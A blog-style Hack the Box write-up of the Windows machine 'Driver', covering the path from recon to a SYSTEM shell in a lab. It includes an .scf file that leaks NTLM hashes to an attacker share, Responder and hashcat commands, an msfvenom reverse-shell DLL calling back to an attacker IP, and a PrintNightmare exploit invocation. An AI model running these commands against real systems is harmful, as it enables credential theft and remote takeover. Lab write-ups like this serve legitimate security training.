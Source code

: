 ```yaml
---
title: HtB Driver
author: istify
date: 2022-02-27
category: Hack the Box
layout: post
---
```


# Hack the Box Driver Writeup
Driver was an easy Windows box from Hack the Box created by MrR3boot.
## Recon
I started by doing an nmap scan of the box:
```
sudo nmap -sS -p- 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 06:51 EST
Nmap scan report for 10.10.11.106
Host is up (0.033s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 105.22 seconds
```

I then looked at the http server first. You get prompted for basic auth credentials, but `admin`/`admin` works and gives us access to a Website called "MFP Firmaware Update Center". 

## Foothold
The most interesting part of the web page is a file upload under the "Firmware Updates" tab. I tried around with this upload for a bit and uploaded e.g. executables, as the site claims these should be tested. However after a time I gave up on this. As this is a Windows box an other option would be to trigger an NTLM connection using the file upload. I saw something similar on HtB in the past with an SQL injection, that you could exploit to get an NTLM connection.

We can trigger an NTLM connection in this case by uploading an `.scf` file. There is a blog post on [pentesterlab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) about this. First I started responder using:
```
sudo responder -I tun0 --lm
```
Then I created an `.scf` file and uploaded it. The file I created looked as follows:
```
[Shell]
Command=2
IconFile=\\10.10.14.8\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
This gave me a hash:
```
[SMB] NTLMv2 Hash     : tony::DRIVER:3cf88c22c2b5dfe0:75CF7454B42FD9A156C2525353940DFF:010100000000000087E8256E9326D8017C77361926092FA000000000020000000000000000000000
```
Sadly this is no NetNTLMv1 Hash, however I was able to crack it using hashcat as the password was contained in rockyou.txt:
```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
As can be seen in the nmap scan, winrm is active on the box. So I used the cracked password with evil-winrm to get access to the machine:
```
evil-winrm -u tony -p liltony -i 10.10.11.106
```
At this point I got access to the user flag.

## Privilege escalation 

The box is vulnerable to PrintNightmare, which I looked as first as the machine did have a printer theme. I personally used [this](https://github.com/cube0x0/CVE-2021-1675) exploit and pretty much followed the instructions provieded there. So I installed it, generated a a dll using msfvenom as follows:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=12345 -f dll -o test.dll
```
I then uploaded this dll using evil-winrm and started a nc listener:
```
nc -lvp 12345
```
Afterwards I executed the exploit using:
```
python3 ./CVE-2021-1675.py ./tony:liltony@10.10.11.106 'C:\Users\tony\Documents\test.dll'
```
This gave me system shell and allowed me to read the root flag. 

After machine retired I watched ippsecs's [walktrough](https://www.youtube.com/watch?v=N2ahkarb-zI). One of the privilege escalations used in the video also is PrintNightmare, but with the [powershell script](https://github.com/JohnHammond/CVE-2021-34527) by John Hammond and Caleb Stewart. However there is a second way to escalate privileges using an exploit for a Ricoh printer driver for which an metasploit module seems to exist. 

Small sidenote: If you ever want to exploit PrintNightmare on a Windows 2008 system you can use [this](https://github.com/evilashz/CVE-2021-1675-LPE-EXP) exploit. I had problems getting the powershell exploit to run on such a system before and this worked for me.

